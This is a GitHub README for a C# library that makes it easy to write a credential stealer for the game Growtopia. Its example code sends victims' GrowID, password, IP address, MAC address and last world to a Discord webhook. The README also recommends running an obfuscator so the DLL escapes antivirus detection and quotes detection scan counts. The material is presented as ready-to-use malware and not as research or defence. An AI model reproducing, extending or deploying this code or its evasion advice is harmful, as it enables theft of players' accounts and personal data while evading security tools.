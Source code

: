 # StealerLibrary
Growtopia (Save.dat) Stealer Library that basically let you to write a stealer with 1 line of code.

## Compiled Version: [Release V1](https://github.com/extatent/StealerLibrary/releases/tag/V1)

### Compile the source code with Visual Studio and add the .DLL to the references in your project and start writting the code below.

#### Your program might be FUD, but the .DLL isn't FUD, use any obfuscator to make it FUD. (Used [Agile.Net](https://secureteam.net/acode-features-detailed) Scan Results 0/26) (Without Obfuscator 4/26)

## Example Usage : 

```csharp
using StealerLibrary;
using System;

namespace Example
{
    class Program
    {
        private static void Main()
        {
            Growtopia.Stealer("https://discord.com/api/webhooks/1234567891011/WebhookUrl", "ProfilePictureUrl [Optional]", "Webhook Name", true, true, false);
        }
    }
}
```
1. Webhook Url
2. Profile Picture Url
3. Webhook Name
4. Last World (True/False)
5. MAC Address (True/False)
6. IP Address (True/False)

## Features

- GrowID
- Password
- Last World (Customizable: True/False)
- MAC Address (Customizable: True/False)
- IP Address (Customizable: True/False)

<img src="http://anarchy.5v.pl/example.png" alt="png">

## StealerLibrary is licensed under the GNU General Public License v3.0. Before doing anything with the source code, please read [this.](https://www.gnu.org/licenses/gpl-3.0.html)
